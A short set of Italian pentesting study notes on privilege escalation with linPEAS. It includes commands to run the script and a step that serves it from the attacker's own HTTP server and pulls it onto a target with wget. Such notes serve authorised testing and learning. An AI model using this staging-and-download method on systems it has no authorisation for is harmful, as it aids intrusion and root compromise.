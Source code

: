 # Privileg Escalation Tools

## linPEAS

Tool che permette di trovare tutte le possibili vulnerabilità all'interno del sistema.

linPEAS si usa per trovare vulnerabilità in modo tale da riuscire a entrare nel sistema come utente root

Link per scaricare linPEAS.sh -> [Link](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

Esecuzione 

- `chmod +x linPEAS.sh`
- `./linPEAS.sh`

Per caricarlo sul target possiamo fare cosi

- Step 1 : Impostiamo un server locale con python -> `python3 -m http.server 8080`
- Step 2 : Sul target facciamo `wget http://<nostro_ip>:8080/linpeas.sh`

### Esempio di Esecuzione

Per vedere un esempio di esecuzione andare qui -> [Esempio](https://asciinema.org/a/309566)
